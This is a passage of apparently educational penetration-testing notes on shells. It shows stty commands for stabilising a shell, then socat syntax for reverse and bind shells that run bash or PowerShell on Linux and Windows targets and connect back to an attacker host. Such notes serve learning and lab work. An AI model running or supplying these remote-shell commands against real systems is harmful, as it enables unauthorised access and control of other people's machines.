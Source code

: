 Then, in the reverse/bind shell, we execute

```console
~$ stty rows <ROWS>
~$ stty cols <COLUMNS>
```

This changes the registered height and width of the terminal so that programs -- text editors, etc. -- open and display correctly. 

## Socat

*Socat* is similar to Netcat in some ways, but fundamentally different in many others. Socat can be thought of as a connector between two points, such as:

* between a listening port and a keyboard, 
* between a listening port and a file, or
* between two listening ports. 

For **reverse shells**, the basic syntax for a listener is
```console
~$ socat TCP-L:<PORT> -
```

This takes two points -- a listening port and standard input -- and connect them together. The resulting shell is unstable, much like using Netcat. 

On Windows, we can connect to the listener using 
```console
~$ socat TCP:<LOCAL_IP>:<LOCAL_PORT> EXEC:powershell.exe,pipes
```

The `pipes` option forces Powershell (or `cmd.exe`) to use UNIX style standard input and output. 

For a Linux target, we execute
```console
~$ socat TCP:<LOCAL_IP>:<LOCAL_PORT> EXEC:"bash -li"
```

For **bind shells**, we would start a listener on a Linux target by using: 
```console
~$ socat TCP-L:<PORT> EXEC:"bash -li"
```

Similarly, on a Windows target:
```powershell
> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Again, the `pipes` option is used to interface between the standard input and outputs of Windows and UNIX.

The attacking machine should then execute
```console
~$ socat TCP:<TARGET_IP>:<TARGET_PORT> -
```
to connect to the listener. 

-----
